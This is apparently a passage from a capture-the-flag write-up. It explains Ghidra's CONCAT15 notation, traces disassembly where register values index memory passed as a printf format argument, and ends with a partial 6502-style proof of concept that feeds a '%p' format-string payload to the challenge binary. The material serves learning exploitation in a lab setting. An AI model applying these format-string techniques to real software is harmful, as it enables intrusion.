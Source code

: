 ```
CONCAT in particular could be modeled as a left shift of the first argument by the size of the second argument and then logical and-ing the two parameters. 
But for humans it's much easier to think of it as "put the two things next to each other".

The numbers following CONCAT only matter if the passed arguments are not the expected sizes and are probably mainly there to make things more explicit. 
Concretely, you shouldn't read CONCAT15 as "concat fifteen" but as "concat one five": The first argument is expected to have a size of one byte while the second has a size of five, 
totaling to an amount of six bytes: CONCAT15(0x12, 0x3456789012) is the same as 0x123456789012
```

If we check the assembly we can see that it indeeds left shift the first argument by the size of the second argument. 
The size is 8 bits(1 byte). It then OR it instead of ANDing(ig the person that answered this made a mistake there, because ANDing is wrong) it:

```
        00405aa1 0f b6 05        MOVZX      EAX,byte ptr [DAT_0040b923]
                 7b 5e 00 00
        00405aa8 0f b6 c0        MOVZX      EAX,AL
        00405aab c1 e0 08        SHL        EAX,0x8
        00405aae 89 c2           MOV        EDX,EAX
        00405ab0 0f b6 05        MOVZX      EAX,byte ptr [DAT_0040b924]
                 6d 5e 00 00
        00405ab7 0f b6 c0        MOVZX      EAX,AL
        00405aba 09 d0           OR         EAX,EDX
        00405abc 66 89 45 f2     MOV        word ptr [RBP + local_16],AX
        00405ac0 0f b7 45 f2     MOVZX      EAX,word ptr [RBP + local_16]
        00405ac4 48 98           CDQE
        00405ac6 48 8d 15        LEA        RDX,[DAT_0040b920]
                 53 5e 00 00
        00405acd 48 01 d0        ADD        RAX,RDX
        00405ad0 48 83 c0 08     ADD        RAX,0x8
        00405ad4 48 89 c7        MOV        RDI,RAX
        00405ad7 b8 00 00        MOV        EAX,0x0
                 00 00
        00405adc e8 cf b5        CALL       <EXTERNAL>::printf
                 ff ff
```

Based on thise we know that it concat two values. In the challenge `Impossible Mission` we already reversed the binary, we found out that the 2 values at the data section are register X and Y.
It then adds the value to the first argument of printf. Thats where the value is stored. So in code its something like `mem[(reg_x << 8) | reg_y]`. You can check in GDB how it works if you dont get it.
With this we can try to exploit the binary.

So I created an small poc:
```
* = $c000; Sets the base address to 0xc000
jmp start

payload .ASCII "%p"
        .BYTE 0

start	
		jsr		test
test	
		ldx		#>payload
		ldy		#<payload
		.word   0 ; We will patch this later with int #32. int isn't a normal opcode in c64. In this opcode it takes input etc.. In this challenge there is a format string here if we call it with 32 as hex value. 

		rts
```